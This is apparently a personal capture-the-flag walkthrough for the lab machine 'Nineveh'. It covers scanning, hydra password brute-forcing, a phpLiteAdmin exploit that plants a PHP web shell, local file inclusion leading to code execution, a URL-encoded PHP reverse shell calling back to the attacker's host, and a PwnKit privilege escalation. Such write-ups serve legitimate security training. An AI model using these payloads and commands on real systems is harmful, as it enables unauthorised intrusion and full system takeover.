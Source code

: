 Ping
```
ping 10.10.10.43
```
![[Pasted image 20240620160700.png]]

Nmap Default Scan
```
nmap 10.10.10.43 -oN dnmap
```
![[Pasted image 20240620160806.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.43 -sC -sV -A -oN snmap
```
![[Pasted image 20240620161005.png]]

Nmap All Port Scan
```
nmap 10.10.10.43 -p- --open -T5 -oN anmap
```
![[Pasted image 20240620161658.png]]

On port 443
https://10.10.10.43
![[Pasted image 20240620161843.png]]

On Port 80
http://10.10.10.43
![[Pasted image 20240620161740.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240620161624.png]]

http://10.10.10.43/department
![[Pasted image 20240620161757.png]]

Source page
![[Pasted image 20240620162028.png]]
So we can assume the mysql is installed on server and there is a user named **amrois**

Will try to do sql injection using the gathered information
But sql didn't work

Tried brute force with user amrois, no luck

Will try brute force with user admin
Captured login form
![[Pasted image 20240620163851.png]]

Brute force using hydra's http post form
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid Password!'
```
![[Pasted image 20240620164151.png]]
Found valid creds **admin:1q2w3e4r5t**




Successfully logged in as Admin 
![[Pasted image 20240620164438.png]]

Notes
![[Pasted image 20240620165803.png]]

After some enumeration, I can't progress further 

Will Enumerate port 443
```
gobuster dir -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster443.txt
```
![[Pasted image 20240620165858.png]]

https://10.10.10.43/db
![[Pasted image 20240620170009.png]]
We can see phpLiteAdmin version, will search for any public exploit.

Found one https://www.exploit-db.com/exploits/24044
![[Pasted image 20240620170135.png]]

Before that we need to find password to login, will use hydra this time for https-post-form
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
```
![[Pasted image 20240620171205.png]]

Logged in as admin
![[Pasted image 20240620171302.png]]

Now will follow the steps in the exploit https://www.exploit-db.com/exploits/24044
![[Pasted image 20240620171355.png]]

Following the steps
![[Pasted image 20240620175521.png]]
Created the database named hack.php and table named pwn and the filed 1

Now have to insert malicious php code to get RCE
```
<?php echo system($_REQUEST ["cmd"]); ?>
<?php echo system($_REQUEST ["cmd"]); ?>
```
![[Pasted image 20240620180014.png]]

 We can RCE Now
```
 http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../var/tmp/hack.php&cmd=id
```
![[Pasted image 20240620180907.png]]

Will get reverse shell, using php reverse shell with url enconding
```
10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../var/tmp/hack.php&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.6%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![[Pasted image 20240620181049.png]]

Got reverse shell and upgraded my shell using python
```
rlwrap nc -nvlp 4444
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240620181120.png]]

Can't read user.txt
![[Pasted image 20240620181314.png]]

Will jump to Privilege Escalation......!

We can't see our sudo permissions, it is asking password
![[Pasted image 20240620181440.png]]

Will check for SUID binaries
```
find / -perm -u=s -type f 2>/dev/null
```
![[Pasted image 20240620181556.png]]
We can se pkexec, will check its version

```
pkexec --version
```
![[Pasted image 20240620181707.png]]
Running vulnerable Version, will try PwnKit

Transferring PwnKit to target machine
```
wget 10.10.14.6/PwnKit
```
![[Pasted image 20240620182101.png]]

Change permissions and execute the binary
```
chmod +x PwnKit
```
```
./PwnKit
```
![[Pasted image 20240620182143.png]]
Coool..! We ARe Ro0t

**root.txt**
![[Pasted image 20240620182513.png]]

User.txt
![[Pasted image 20240620182620.png]]


Done with Nineveh.....:)
